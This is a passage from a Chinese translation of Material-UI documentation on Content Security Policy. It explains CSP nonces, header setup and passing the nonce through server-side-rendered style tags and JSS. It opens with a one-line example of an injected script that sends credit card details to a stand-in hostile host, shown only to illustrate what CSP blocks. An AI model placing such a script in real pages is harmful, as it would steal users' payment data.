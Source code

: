     <script>
      sendCreditCardDetails('https://hostile.example');
    </script>
    

此漏洞允许攻击者执行任何操作。 但是，使用安全的CSP标头，浏览器将不会加载此脚本。

You can read more about CSP on the [MDN Web Docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP).

### 如何实现CSP？

为了将CSP与Material-UI（和JSS）一起使用，您需要使用nonce。 随机数是一个随机生成的字符串，只使用一次，因此您需要添加服务器中间件以在每个请求上生成一个。 JSS有[一个很棒的教程](https://github.com/cssinjs/jss/blob/next/docs/csp.md)关于如何使用Express和React Helmet实现这一目标。 对于基本纲要，请继续阅读。

CSP nonce是Base 64编码的字符串。 你可以这样生成一个：

```js
import uuidv4 from 'uuid/v4';

const nonce = new Buffer(uuidv4()).toString('base64');
```

使用UUID版本4非常重要，因为它会生成**不可预测**串。 然后，将此随机数应用于CSP标头。 应用了随机数时，CSP标头可能如下所示：

```js
header('Content-Security-Policy')
  .set(`default-src 'self'; style-src: 'self' 'nonce-${nonce}';`);
```

如果使用服务器端呈现（SSR），则应在服务器上的`<style>`标记中传递nonce。

```jsx
<style
  id="jss-server-side"
  nonce={nonce}
  dangerouslySetInnerHTML={{ __html: sheetsRegistry.toString() } }
/>
```

然后，您必须将此随机数传递给JSS，以便将其添加到后续`<style>`标记中。 客户端从头部获取nonce。 无论是否使用SSR，都必须包含此标头。

```jsx
<meta property="csp-nonce" content={nonce} />
```
